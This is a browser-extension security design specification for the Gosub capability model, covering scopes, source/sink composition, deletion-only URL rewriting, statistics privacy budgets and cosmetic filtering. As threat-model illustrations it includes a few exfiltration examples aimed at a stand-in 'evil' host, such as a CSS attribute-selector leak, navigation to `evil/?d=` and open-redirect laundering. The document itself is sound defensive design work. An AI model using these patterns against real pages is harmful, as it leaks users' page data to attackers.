



# Gosub Extension Capability Model

**Version 2.1.9 — August 2026**

v2.1.1 integrates six red-team passes against v2. The model's thesis and structure are unchanged; what changed is that the composition mechanism now classifies authority by **observable effect rather than API namespace**, in **two directions** (information flow *and* command flow), computed over the **publisher**, not the package. A layer of enforcement-correctness commitments (header serialization, artifact termination, socket binding, IPC scheduling) sits beneath the model, because the reviews converged on the model being sound and the remaining risk living in the engine that enforces it. The .1 patch corrects two security-model bugs a sixth pass found (the loopback-origin conflation in §3 and the single-rule stats oracle in §7), completes the command-axis labels the registry left empty, re-models §5's undecidable "state-changing" distinction, promotes publisher identity into the model, and distinguishes runtime remote control from signed updates. The .2 patch adds two capabilities that a full-uBO gap analysis showed the registry lacked: deletion-only URL rewriting (`filtering.rewrite_url`, for `$removeparam`) and a browser-supplied scriptlet library (`filtering.scriptlet`) so lists can select and parameterize audited page-side scriptlets without any extension code entering the page. The .3 patch folds two adversarial passes against those additions back in: URL rewriting is re-specified at the byte layer (splice, not parse-and-reserialize) and re-tiered standard because its failure mode is silent alteration rather than loud breakage, and the scriptlet library's safety labels are re-derived from an explicit admission closure — structured arguments, a write-target denylist, fixed-enum synthesized responses, a no-channel claim covering every extension context — instead of being asserted per-capability. The .4 patch closes a third pass that attacked those fixes: URL matching is separated from URL emission (match on a normalized scratch copy, splice from the untouched original) so raw-byte emission no longer lets a percent-encoded tracker evade the filter; the scriptlet admission closure is bound to §14's untrusted-artifact model with a mandatory renderer-side revalidation, its write-target rule inverted from a denylist to an allowlist, and its no-channel clause restated in terms of byte provenance; and the browser-supplied library gets the same transparency governance §9 gave remote rulesets. The .5 patch closes a fourth pass: the scriptlet write allowlist is extended from the write *target* to the write *value* (an arbitrary rule-supplied primitive written into a page data property is a gadget-mediated sink once page code reads it into a sink), the byte-provenance rule is reworded from "never write page-derived data" (which over-bans json-prune) to "never *move* page data to a location the page did not itself expose it," and two rewrite_url residuals are pinned (the `;` match-separator is a server-parse guess; decoding is one pass). v2.1.9 integrates three external passes against v2.1.8 (ChatGPT, DeepSeek, Gemini). The load-bearing new finding widens the §5 definition of a **sink**: it is not only *creating* a request but *mutating an already-outbound one* in an externally-observable way — so a header/rewrite rule predicated on an initiator or page-derived fact is an information sink even though it creates no request. The pass also fixes two stale §19 one-liners that *reversed* v2.1.8 fixes (remote-list "reject on stale", rewrite_url "no decoding"), repairs type errors (`proxy_control`, missing actuators on `tabs.organize`/`forms.fill`), applies the transitive-effect reasoning to `dom.declarative_actions`, narrows `isolated_network`'s guarantee to extension-principal traffic, extends the scriptlet closure to timing channels and operator combinations (bounded by Rice's theorem — many operators stay permanently loud), and covers WebRTC/WebTransport egress. v2.1.8 is a self-red-team of the v2.1.7 additions: it removes an ill-typed Axis-1 product (`session_state` is a sink/actuator, never a source), replaces the remote-list hard-fail-on-stale rule with flagged-stale-plus-bounded-grace (hard-fail is fail-open — the withholder's goal), deletes the unsound "suppressive semantics" shortcut for scriptlets (suppressing a page's guard *enables* the guarded action), restricts the private-browsing matrix to denied/partitioned (shared-read-only was itself a linking channel), states honestly that property-name randomization barely narrows the shared-realm channel, enumerates the navigation scheme allowlist (`data:`/`blob:` excluded by name), and pins initiator attribution for injected-context requests. v2.1.7 integrates three external red-team passes against v2.1.6 (ChatGPT, DeepSeek, and a Gemini validation pass that surfaced no new findings). The load-bearing fix: v2.1.6 *claimed* the registry is mechanically validated against the §5 label algebra but §19 did not actually carry the `actuator` labels the closure needs — so `egress + tabs.navigate` failed to derive `remote.navigation_control`, making a derived warning false. v2.1.7 makes source/sink/command-source/actuator mandatory structured fields on every §19 entry, reconciles the prose labels, and defines a product for every atom. It also adds a cookie-specific scope algebra (§3), a private-browsing capability-intersection matrix (§12), a navigation scheme allowlist and cross-extension-traffic protection (§15/§19), and sharpens the scriptlet proof to cover transitive page gadgets (§8). v2.1.6 integrated two external red-team passes (ChatGPT, DeepSeek) against v2.1.4. Their convergent model-level findings are folded in: a readable egress channel is itself a `remote_server` command-source (§5); an artifact never carries authority — every consumer intersects it with a separately-produced grant envelope (§14); the scriptlet closure adds control-dependence non-interference and reconciles its write allowlist with the operators it must actually support (§8); the publisher principal is stable with signing keys rotating beneath it (§13); `rewrite_url` tokenizes on raw separators before decoding (§6); the stats budget is pooled, not per-extension (§7); `cookies.write` gains a delayed-egress sink and a session-state actuator (§5, §19); redirects re-authorize host scope, not just address space (§15). A full changelog is at the end.

## Overview

Browser extensions inherit a decade of accreted permissions. MV2 granted too much: an ad blocker could observe and modify every request. MV3 conflated security architecture with product policy — rule limits, worker lifetimes, and API removals shipped as one bundle, and powerful filtering became collateral damage.

Gosub rests on one thesis:

> **Powerful extensions do not require powerful extension code.**

The browser provides powerful, trusted primitives — filtering, matching, statistics, form filling, command handling. Extensions select and configure them. Extension code holds as little authority as possible, and the authority it holds is explicit, scoped, composed-with-care across both information and command flow, and revocable.

Manifest versions are input formats (§18), not the security architecture. The security architecture is the capability model, and its centre of gravity is §5. **The security boundary is the enforced capability set, not the install dialog** — the dialog (§11) exists for informed consent and honest disclosure, but every guarantee in §5–§17 holds whether or not a user reads or understands it. A model that depended on users parsing dialogs would not be a security model.

---

# Part I — Principles

## 1. Separate Extension Code from Filtering

The filter engine is browser code, running in the network layer (network filtering) and the renderer (cosmetic filtering). Extensions supply *rules*; they do not execute during matching, do not sit on the request path, and do not receive the requests they affect.



Filtering performance and limits become engineering questions, not permission questions; a compromised worker cannot see traffic it was never given; the machinery is shared, testable, benchmarkable browser code.

## 2. Filtering Should Be Powerful — Within Budgets

No product-policy rule limits. Engineering budgets instead, as design commitments:

```text
Compile-time budget    rulesets exceeding compile cost or artifact
                       size are rejected at compile time
Match-time bound       worst-case per-request cost is bounded; regex
                       rules use a linear-time engine (RE2-class),
                       eliminating catastrophic backtracking; the
                       compiled artifact's transition graph is
                       acyclic or step-capped (§14), so a valid
                       artifact cannot hang the matcher
Memory cap             per-extension resident budget, enforced at
                       install and update
```

A full EasyList + EasyPrivacy + regional load sits far inside every budget; a malicious ten-million-rule or non-terminating ruleset is rejected, not slowly executed.

## 3. Capabilities and Scopes

A **capability** names an operation class; a **scope** parameterizes where it applies. The model never conflates them:

```text
capability(scope)

content_script(["*.example.com"])
network.egress_public(["api.sponsorblock.example"])
filtering.block(subresource, ["<all>"])
content_handler("https://viewer.example", ["application/json"])
```

Host patterns, MIME types, request classes, and origins are scopes; a host pattern is never itself a capability. Translation (§18) is contextual: a host permission acquires meaning only in combination with the API that uses it.

**Scopes are canonical — and origin identity is separate from address-space classification.** Two distinct functions, never conflated:

```text
canonical_origin(scope)      preserves scheme + normalized host + port.
                             http://localhost, http://127.0.0.1, and
                             http://[::1] are THREE DIFFERENT origins and
                             stay distinct. Used for grant scoping.

classify_address_space(host) maps a resolved host to loopback / RFC-1918 /
                             link-local / public. Groups those same three
                             as loopback. Used for egress tiering and SSRF
                             policy (§15) — never for grant identity.
```

Both the translator and Sonar call the *same* `canonical_origin` for scope identity and the *same* `classify_address_space` for connection policy, so the two sides can never disagree — but a grant for `cookies.read(http://localhost)` must never widen to `127.0.0.1` or `[::1]`, because collapsing origins is a privilege expansion. Origin canonicalization normalizes representation (case, default ports, IDNA, IPv6 bracket form) *without* merging distinct origins; address-space classification is a separate connection-policy concern. Scopes are stored canonical, never as raw manifest strings; a scope is only as sound as the single canonicalizer both sides trust.

**Cookies are not origin-scoped, so cookie capabilities carry a separate scope algebra.** `canonical_origin` (scheme+host+port) is the right identity for network egress and page access, but cookies obey different rules: they are *not* port-scoped, a `Domain=.example.com` cookie is emitted to every subdomain, `Secure`/`__Host-`/`__Secure-` prefixes constrain scheme and path, and partitioned cookies add a top-level-site key. Because `cookies.write` is a delayed outbound sink and a `session_state` actuator (§5), scope must be computed over *where the written cookie can later be emitted*, not over the write origin:

```text
cookies.write(scope) is permitted for a cookie C iff EVERY request
origin to which C could be emitted (its Domain/path/Secure/partition
projection) is contained in the grant scope.
Conservative default: narrow grants may set HOST-ONLY cookies only;
a Domain= cookie requires a grant covering the whole resulting
domain scope; :port in the grant does not confine a cookie to that
port. cookies.read is scoped symmetrically over readable origins.
```

Without this, a grant narrowly to `foo.example` could write a `Domain=.example.com` cookie subsequently emitted to `bank.example` — an egress the grant never authorized. The cookie scope algebra is enforced at the same `cookies.*` capability check, computed by the one canonicalizer both sides trust.

Scopes narrow monotonically: a grant may be reduced (per-site revocation) without touching the capability; a capability may be revoked without enumerating scopes.

## 4. Security Dimensions of a Capability

Every capability is classified along four axes:

```text
C  Confidentiality   what can it learn?
I  Integrity         what can it change?
A  Availability      what can it prevent?
U  User intent       can it cause actions normally requiring
                     explicit user interaction?
```

```text
filtering.block (subresource)     C:low   I:med    A:high  U:low
filtering.redirect (main_frame)   C:low   I:crit   A:high  U:high
filtering.rewrite_url (sub)       C:low   I:med    A:med   U:low
filtering.scriptlet               C:low   I:high   A:med   U:low
content_script                    C:crit  I:crit   A:med   U:med
dom.declarative_actions           C:low   I:high   A:med   U:high
input.raw_keys                    C:crit  I:low    A:low   U:low
cookies.write                     C:med   I:high   A:med   U:med
```

v1 scored capabilities almost entirely on confidentiality. Blocking, redirection, and declarative actions are integrity/availability/intent powers; a model that only asks "can it read?" mis-tiers them.

## 5. Capability Composition — Two Axes, One Principal

**Risk(capability set) ≠ max(Risk(each capability)).** The security-relevant object is the *closure* of the granted set, and it composes in two directions.

### Effect, not namespace

Labels attach to **observable effect**, never to which API produced it. A capability is a **sink** if it can produce an **externally observable outbound effect** — and that is broader than creating a request. Two forms:

- *creation* — cause a network-producing effect (`fetch`, a DOM-created ``/iframe/form, a navigation, a CSS `url()`, a tab-open); and
- *mutation* — alter an **already-outbound** message in a way a remote observer can see (change/remove a request header, strip a query parameter, redirect a hop).

The mutation form matters because it needs no new request to leak: a filter rule that fires *conditionally on an initiator or page-derived predicate* and mutates traffic to a server encodes that predicate into what the server observes. So **a filter predicate over initiator/history/page-derived state, feeding an outbound mutation, is a source** — the rule acquired the fact and the mutation emitted it — even with no `network.observe`, `stats.read`, or extension egress in the grant. This generalizes what §6 already conceded for `rewrite_url` (the destination server can observe stripping): the concession was not special to rewriting, it is the rule for all outbound mutation. Consequences: standard-tier header and rewrite mutations must **not** be conditional on initiator or page-derived predicates (an unconditional mutation carries no predicate to leak); a mutation that *is* so conditioned composes as a source and is tiered accordingly (§15, §19).

A capability is a **source** if it can *acquire* page/URL/credential/keystroke/pixel/selection data — whether it reads, renders, detects, or **acts** (including acquiring a fact through a conditional filter predicate as just described). "It only renders / only detects / only acts / only organizes" is **not** an exemption.

```text
source label   none | aggregate | tab_urls | page_content |
               credentials | keystrokes | pixels | selection |
               implicit_history | download_urls | user_text |
               browser_traffic
               (probe is a sink-side label; see below)

sink label     none | own_hosts | arbitrary_network | probe |
               native_host | user_scripts | session_state

command-source command authority INTO the extension's decisions
               none | user | packaged | publisher_update |
               remote_server | webpage | native_process |
               enterprise_policy

actuator       authority the extension can DRIVE
               none | filter_policy | dom | navigation |
               browser_ui | session_state | extension_bridge | os
```

These enums are the **authoritative label algebra**, and every §19 entry carries source / sink / command-source / actuator as **mandatory structured fields** (explicit `none` where inert) — validated at build time so no entry uses an absent label and no product is left undefined. This closes two holes v2.1.6 named but did not actually shut:

- **Every actuator-bearing capability must state its `actuator`.** v2.1.6's prose said readable egress composes with "every actuator," but §19 assigned actuators to almost none — so `network.egress_public + tabs.navigate` could not derive `remote.navigation_control` from the registry the closure reads. §19 now labels `tabs.open/navigate` and `omnibox.navigate` `actuator: navigation`; `dom.actions_arbitrary`/`content_script`/`page.main_world_inject`/`devtools.dom` `actuator: dom`; `ui.notifications`/`ui.newtab_override`/`ui.omnibox_register` `actuator: browser_ui`; `filtering.*` mutators `actuator: filter_policy`; `cookies.write` `actuator: session_state`; `downloads.*`/`network.proxy_control`/`system.native_messaging` `actuator: os`. An entry with no actuator states `actuator: none` and is inert to Axis 2.
- **Prose source labels are normalized to enum atoms.** `history`/`history/page` → `implicit_history` (+ `page_content`); `page-derived` → `page_content`; `credentials/session` → `credentials`; `aggregate-history` → `aggregate`; `download_urls + metadata` → `download_urls`. `webpage × extension_bridge` uses a real actuator: **`extension_bridge` is added to the actuator enum** (the receiving extension's message surface).

Axis 1 defines a product for **every** source atom, not the original six: `aggregate × sink -> aggregate.exfiltration`, `selection × sink -> selection.exfiltration`, `download_urls × sink -> history.exfiltration`, `user_text × sink -> query.exfiltration`, `browser_traffic × sink -> traffic.exfiltration`. `session_state` is deliberately **not** among them: it is a sink and an actuator, never a source — a written cookie *carries* data out, it does not *acquire* any — so its Axis-1 role is on the sink side (`page_content × session_state-sink -> session.exfiltration`) and a `session_state × sink` product would be ill-typed. (An earlier draft listed exactly that; the type discipline the build-step validation enforces is what caught it.) The vocabulary is closed and the validation is a build step, not prose.

Consequences the reviews forced (see registry §19 for the full assignment):

- `content_script` and `content_script.active_tab` are `page_content + arbitrary_network` **by definition** — an isolated-world script still shares the page DOM and can create a network-loading node. `active_tab` is therefore not silent.
- `tabs.open` / `tabs.navigate` are `arbitrary_network` sinks (navigate a tab to `evil/?d=`); `tabs.organize` is not a *sink* but IS an `actuator: browser_ui` (close/regroup = remotely-drivable browser-state/availability power), so `egress + tabs.organize` is an Axis-2 hit — "only organizes" is not an exemption.
- `styles.inject_raw`, `filtering.cosmetic`, and `filtering.procedural` are sinks via CSS resource loads unless neutralized (§6, §8).
- `content_handler`, `context.*`, `forms.detect_credentials` are sources.
- `filtering.dynamic_rules` is `sink: probe` **and** `source: implicit_history`: even with statistics denied, a single-URL dynamic rule plus a timing loop turns the matcher into a navigation detector.
- `cookies.write(hosts)` is not only `I:high`: it is a **delayed-egress sink** and a `session_state` actuator. A cookie the extension writes is a byte string the browser will later emit in a `Cookie` header to that host — so page/read state can be encoded into cookie bytes and transmitted *without* `cookies.read` or any direct egress (`sink: session_state`), and a readable remote server co-held with `cookies.write(bank.example)` can drive another site's login/session state (`remote_server × session_state -> remote.session_control`). This is why the actuator and sink columns both grew a `session_state` entry.
- `filtering.rewrite_url` is **not** a sink only because it is deletion-only and byte-spliced (§6): the rewritten URL is a byte-subsequence of one the page produced. Substitution-based rewriting — even "same-origin only" — *is* an `arbitrary_network` sink, because a same-origin open redirect (`victim/redirect?to=evil/?d=<captures>`) launders rule-derived bytes to any host. Gosub therefore offers no substitution rewrite at any tier below `filtering.redirect_*`'s static-target rule. The deletion residual (§6) accrues to the *destination server*, which can observe which parameters were stripped; for same-publisher traffic the destination IS the publisher, so rewrite rules targeting the publisher's own hosts carry a mild `implicit_history`-flavored channel the closure names rather than ignores. Deletion also has an unavoidable integrity residual the standard tier only surfaces, never removes: stripping a parameter from a query the server signed or treats as a nonce (`sig=HMAC(...&utm_source=x)`) makes the request fail — a "succeeds with altered meaning" outcome (§6) whose only defense is the dialog line, since the browser cannot tell a tracking parameter from a signed one by name.
- `filtering.scriptlet` (browser-supplied library) is `source: none, sink: none, actuator: dom` — but those labels are *earned by the §8 admission closure*, not intrinsic: they hold iff no library operator, under any parameterization, can write a navigation/cookie/network-loading property, copy page-derived data anywhere a co-resident extension context reads, or receive a parameter as anything but a structured argument. The no-channel claim covers **every** extension context — the worker *and* any isolated-world content script sharing the page DOM. Because one of those closure properties (control-dependence non-interference) rests on per-operator audit rather than a decidable check, `filtering.scriptlet` is tiered **loud until those proofs exist (O3), then standard** — the labels are earned, the tier is conservative pending the audit, and the tier is computed *per ruleset* from the operators the rules use (Appendix D: only write-only fixed-enum operators reach standard; every page-data-reading operator is permanently loud). Extension-authored scriptlets are `page.main_world_inject` and carry that entry's labels.

### Axis 1 — information flow (source × sink)

```text
page_content  × any sink   ->  page.exfiltration
tab_urls      × any sink   ->  history.exfiltration
credentials   × any sink   ->  credential.exfiltration
keystrokes    × any sink   ->  keystroke.exfiltration
pixels        × any sink   ->  capture.exfiltration
implicit_history × any sink ->  history.exfiltration
```

### Axis 2 — command flow (command-source × actuator)

Confidentiality is not the only authority. A remote server that can reprogram browser policy is dangerous even if **no information leaves**:

```text
remote_server × filter_policy  ->  remote.filter_control
remote_server × navigation     ->  remote.navigation_control
remote_server × dom            ->  remote.page_control
remote_server × browser_ui     ->  remote.ui_control
webpage       × extension_bridge -> external command channel
```

The canonical case: `network.egress_public(own) + filtering.dynamic_rules + filtering.block` is a remotely reprogrammable filtering engine — every capability standard or silent, the combination a command-and-control channel.

**A readable egress channel is itself a `remote_server` command-source.** The earlier derivation ("egress-to-own-host + a *mutation* capability") was too narrow: a mutation capability is only needed when the thing being remotely driven is *declarative policy*. For a directly callable actuator no mutation step is required — `network.egress_public(["c2.example"]) + tabs.navigate` lets the worker poll `c2.example`, receive `{url}`, and call `tabs.navigate(url)`, which is plainly `remote_server × navigation -> remote.navigation_control`. The same holds for `downloads.create`, `ui.notifications`, `dom.actions_arbitrary`, `cookies.write`, `omnibox.navigate`. So the rule is: **any egress the worker can *read a response from* is a `remote_server` command-source, and it composes with every actuator the same set holds.** `dynamic_rules` (or another mutation capability) is additionally required *only* to drive `filter_policy`, because filtering is declarative rather than a callable API. This widens Axis 2 well beyond the filtering case and is why the detector composes over the whole actuator column, not a pair table.

Axis 2 is a **derived-pattern detector**, not a per-capability tier: `command-source: remote_server` is emergent (any readable egress), while `command-source: native_process` / `enterprise_policy` / `publisher_update` and every `actuator` *are* per-capability labels the registry (§19) assigns. Both axes are computed the same way — a closure over labels — but axis 2's remote-server source arises from a combination rather than a single grant. Every registry entry that can drive filter policy, navigation, the DOM, browser UI, or the OS carries an `actuator` label so the detector has something to compose against; entries with none are inert to axis 2.

### The principal is the publisher, not the package

Both closures are computed over the **communicating set**: any extensions sharing a channel (externally_connectable, a shared storage origin, a native-messaging bridge) — and over the **same-publisher set**. Two co-published extensions, one holding a source and the other a sink, hold the derived authority *jointly*; each individual install dialog is not allowed to look clean while the pair exfiltrates.

**The shared page realm is a browser-provided channel, and the closure treats it as one.** A red-team pass showed a gap: extension A (publisher P1) holds `filtering.scriptlet` or `content_script` and writes `window.__x = pageData`; extension B (publisher P2) holds `content_script + egress` and reads `window.__x` and exfiltrates it. This is *not* the "own servers + OS covert channel" residual (that genuinely is out of scope) — the main world and the shared page DOM are an execution environment **the browser itself provides**, so two extensions that both reach a given page's **DOM-connected frame tree** are a communicating set — and "the page" means the whole tree a shared realm spans, not one document: A in the top document and B in a same-tree (even cross-origin) child frame can rendezvous through `window.top`/`window.parent` and the shared node tree, so the communicating set is the frame tree, not the single document, and their source×sink authority composes there. Because enumerating every such cross-publisher pair at install time is infeasible, the honest statement is that **the channel is essentially open between any two extensions that reach the same page realm, and no cheap mitigation closes it**: randomizing property names is near-worthless in the main world (a receiver enumerates the global and rendezvouses on a marker *value*, not a name), and it does not touch the larger instance of the channel at all — two content scripts share no `window` (separate isolated worlds) but share the **DOM**, where attributes, hidden nodes, and `dataset` are just as enumerable. The real controls are structural: the loud tiers on `filtering.scriptlet` and `content_script` (the dialog states page access plainly), the §8 rule that no *library* operator writes page-derived data anywhere at all (so the browser-supplied path contributes no writer), and store-side co-install signals for the pair itself. The open residual — cross-publisher collusion through the shared realm by extensions that each individually justified their page access — is named in O7 as a limitation, not mitigated away. Unrelated publishers colluding purely through their own servers plus an OS covert channel remain out of manifest-analysis scope, handled by store-side signals.

### Derived authority drives the dialog, and recomposes on update

The installation dialog leads with derived authority. `content_script` + `network.egress_public(api.foo.example)` does not read "can read pages; talks to api.foo.example." It reads:

> **Can send the contents of pages you visit to api.foo.example.**

Enumerated pairs are test cases; the mechanism is the label closure over both axes, so capabilities added later compose correctly without a pair table. On update (§13) the closure is recomputed over the new effective set and the **delta** is shown — a newly-acquired sink against a long-held source surfaces the derived warning at update time, not silently.

---

# Part II — The Model

## 6. Separate Observing Traffic from Controlling Traffic

An extension that can *block* `||tracker.example^` does not thereby learn `https://tracker.example/foo?id=123` was requested. Control and observation are separate; almost every extension needs only control.

> **Direct request observation is prevented. Control primitives and feedback channels are constrained to minimize indirect observation.**

Deliberately weaker than "control implies no observation," because control leaks through side effects unless constrained:

**Redirect targets are static and classed.** A redirect rule targets only a resource from the extension's fixed packaged set — no rule-derived components, no regex substitution, no fragments, no query propagation. Passive targets (image, empty response, static text) are `filtering.redirect_resource`. Executable surrogates are `filtering.redirect_surrogate` and run in an **isolated realm** with no access to page `localStorage`, `sessionStorage`, or `postMessage` to page origins, under a no-network CSP — because a surrogate executing in the page could otherwise launder exfiltration through page JS (`window.app.send(secret)`), a cooperating frame, or DOM-local channels a same-origin content script reads. Browser-supplied audited surrogates are preferred and stay lower-tier; extension-authored executable surrogates are treated as `page.main_world_inject`-class (loud).

**URL rewriting is deletion-only, and deletion is defined at the byte layer.** `filtering.rewrite_url` lets a rule strip query parameters from a matched request before connect (`$removeparam=utm_source`, DNR `queryTransform.removeParams`) — the tracking-parameter case. The invariant that keeps it out of the sink lattice:

```text
rewritten URL     the original with zero or more key=value query
                  segments SPLICED OUT — each removed segment is a
                  contiguous byte range plus its adjoining '&';
                  every surviving byte is emitted unchanged
frozen            scheme, host, port, path, FRAGMENT, and USERINFO,
                  byte for byte
tokenize          on the RAW query FIRST — split into key=value
                  segments on raw `&` only, retaining each segment's
                  exact byte span. Separators are recognized in the
                  raw bytes, never after decoding, so a percent-encoded
                  `%26` (`&`) or `%3B` (`;`) inside a value can NEVER
                  manufacture a structural separator (`?a=%26fbclid=x`
                  is ONE segment `a=&fbclid=x`, not two — decoding-first
                  would forge a phantom `fbclid` inside a's value and
                  splice the wrong range)
matching          per token, decode key and value ONCE for comparison
                  only (`%66bclid` matches `fbclid`; `%2566bclid` does
                  NOT — a server decodes once); linear-time regex over
                  the once-decoded key/value; a matched key marks ALL
                  its duplicate occurrences. The decoded form is used
                  to DECIDE, never to emit
emission          SPLICE FROM THE ORIGINAL — the scratch copy decides
                  WHICH byte ranges to remove; those exact ranges are
                  cut from the untouched original with their adjoining
                  separator, every surviving byte emitted verbatim.
                  Match and emit are separate stages precisely so
                  matching can normalize without any normalized byte
                  reaching the wire
insertion / substitution   never — no captures, no templates, no
                  rule-derived bytes anywhere
```

Separating match from emit is load-bearing in both directions. Emit-side: the natural parse-and-reserialize implementation percent-re-encodes, normalizes separators, and reorders keys — each a rule-influenced byte change on the wire, the same serialization-boundary class as §15's CRLF defense; splicing from the original forecloses it. Match-side: matching on raw bytes instead would let a tracker that writes `%66bclid` (which the server decodes to `fbclid`) evade a `$removeparam=fbclid` rule, defeating the capability's whole purpose — so matching decodes and emission does not. Because every emitted byte is a byte the page itself produced, no request can be steered to an extension-chosen destination and no page state can be encoded into a request. Every other transform a list language offers — path/host/scheme changes, `regexSubstitution`, `$urltransform` with a replacement — is a redirect with rule-derived components, which the previous paragraph forbids; those rules are dropped at compile time with the same downgrade posture as unsupported modifiers, never approximated.

Two residuals are named rather than claimed away. *Parsing differentials:* Sonar tokenizes on `&` only — matching the WHATWG/`URLSearchParams` majority — and deliberately does **not** treat `;` as a separator, because doing so *over*-splits: on `?a=1;utm_source=x` a modern server reads one opaque value of `a`, and splicing the `utm_source` range would corrupt `a`. The cost is that a legacy server which *does* split on `;` sees a parameter the rule could not target — the rule under-strips, never mis-strips. Both directions are bounded to integrity/availability by construction (§5): because tokenization is on raw separators and emission is always a byte-subsequence of the page's own URL, the worst a parser disagreement can do is fail to strip a tracker or mangle a value — it can never fabricate a destination or encode page state outward. (DeepSeek's `?a=%26fbclid=secret` and `;payload=secret` cases are closed by raw-first tokenization: neither forges a separator, so neither produces a wrong-range splice or a phantom match.) Named in the same honesty posture as §12's network-correlation note; the `;` decision is a documented parser choice, not a security boundary. *Observability:* unlike `block` (the request dies) or `redirect_resource` (a packaged byte with isolated cache), a rewritten request completes to the real server — so page JS and the destination can detect which parameters were stripped. The extension still gets no feedback (no event, no counter outside the §7 namespace), so `source: none, sink: none` stands for the extension itself; the observation residual accrues to the destination server, and rewriting is a per-user ruleset fingerprint to sites that look. This failure mode is also why the tier is **standard for every request class, never silent** (§19): a rewritten request *succeeds with altered meaning* — a stripped OAuth `state` or CSRF token degrades a security property with nothing for the user to notice or attribute — which is not the loud, attributable breakage that justifies silent `filtering.block`.

**Packaged-resource loads are unobservable** — no fetch event in the worker, no load notification — *and* their cache state is isolated from any extension-readable context, closing the "was packaged resource N warmed?" timing inference.

**Extension-supplied CSS carries no attacker-chosen URL.** Injected CSS (cosmetic, procedural, `styles.inject_safe`) may reference only static packaged local resources; every network-bearing construct — `url()`, `@import`, `@font-face` remote `src`, `image-set()`, cursor URLs, `list-style-image` — is rejected or rewritten. Without this, attribute-selector rules (`input[value^="a"]{background:url(//evil/a)}`) turn page state into attacker-chosen requests. Raw arbitrary CSS that cannot be so constrained is `styles.inject_raw`, labeled `page_content` and loud.

## 7. Statistics and Feedback Channels

> **Rendering a statistic is free. Reading a statistic is a capability.**

**`stats.display` (silent).** The extension declares that its badge shows a native counter; the browser renders it; extension code never receives the value. The badge use case with zero information flow — the tier to lean on.

**`stats.read` (standard, `source: implicit_history`).** Returns one dimensionless counter — total blocks across all rules across all sites — and is labeled a history source, because **dimensionality reduction does not close the oracle**. An extension ships a *single* rule (`block sensitive-site.example/tracker.js`); the global total then *is* that site's hit count, with `filtering.block` (silent) + `stats.read` and nothing else. Reducing to one counter only raises the rule count an attacker *could* use; the attacker uses one.

The real defense is therefore an explicit browser-owned **privacy budget**, not the counter's shape: added noise with a stated leakage bound, a budget that depletes with reads, and no attacker-resettable baseline. **The budget is pooled, not per-extension** — a per-extension budget is defeated by parallelization: ship 100 one-rule extensions, each targeting a different sensitive site, and each draws its own O(weeks) budget so an attacker probes 100 sites at once. The budget must therefore deplete against a *global* pool (per browser profile, across all publishers and installs), so total leakage is bounded regardless of how the attacker shards it across extensions; a single publisher cannot buy more oracle by splitting into many packages. Two boundaries follow. **Private windows get a separate pool** — a single per-profile pool spanning regular and private is itself a browser-provided cross-instance channel (private reads deplete a budget a regular worker observes through changed/denied reads), which `extension.private_browsing: isolated` forbids (§12); the underlying block counter is partitioned per instance too. **Cross-*profile* parallelization is out of scope, and stated as such:** the pool is per profile, so an attacker who creates N profiles gets N pools — but N profiles is N logically separate users, no cheaper than N devices, and per-device pooling would require OS-level trust the model does not assume. The per-profile pool is the boundary; cross-profile is a named residual (O5). Quantization alone is insufficient — an attacker can prime the counter near a quantization boundary with requests whose blocking it predicts, then watch for the interesting `+1`. The budget must make a rigorous statement (O5's criterion: a single-site probe needs O(weeks) to distinguish one visit from noise). Because `stats.read` is a source, it composes: with any sink it yields `history.exfiltration` and the derived warning; co-held with a probe sink (`dynamic_rules`, `remote_rulesets`) it degrades further or is denied. `scheduling` (silent) supplies precise clocks, so no defense may rest on timing decorrelation. Any internal per-rule counters live in a namespace no standard-tier extension can read.

**`stats.display` remains the clean answer** — the browser renders the badge, the worker reads nothing, and no budget is spent.

**`stats.per_rule` (loud).** Per-rule counts are a history logger one rule away; observation-tier dialog, or export only through an explicit user action.

## 8. Native Cosmetic Filtering

Element hiding is a browser primitive; generic and per-site cosmetic rules compile into the renderer-side engine, so extensions need no page access to hide elements.

**Cosmetic mutation is unobservable to content scripts.** Hiding operates at the compositor level (post-layout), invisible to `MutationObserver` and to any same-origin content script. Without this, a rule like `##div:has-text("secret"):upward(1){--x:...}` plus a content-script poll becomes a one-bit-per-rule page-exfiltration channel. Where the engine cannot guarantee compositor-level invisibility, `filtering.cosmetic` relabels to `source: page_content` and composes accordingly.

**Procedural filters are a closed DSL.** `##div:has-text(x):upward(2)` is data that *describes execution*; the bound is:

> **Remote data may select and parameterize browser-implemented operators. It may never introduce new operators.**

The operator set is fixed, non-Turing, natively implemented, and cost-bounded per operator. Inclusion criterion: operators both common in major lists and straightforward to implement natively; operators requiring full DOM traversal or layout awareness — and `:xpath` in particular — are excluded from the DSL and deferred to the content-script path.

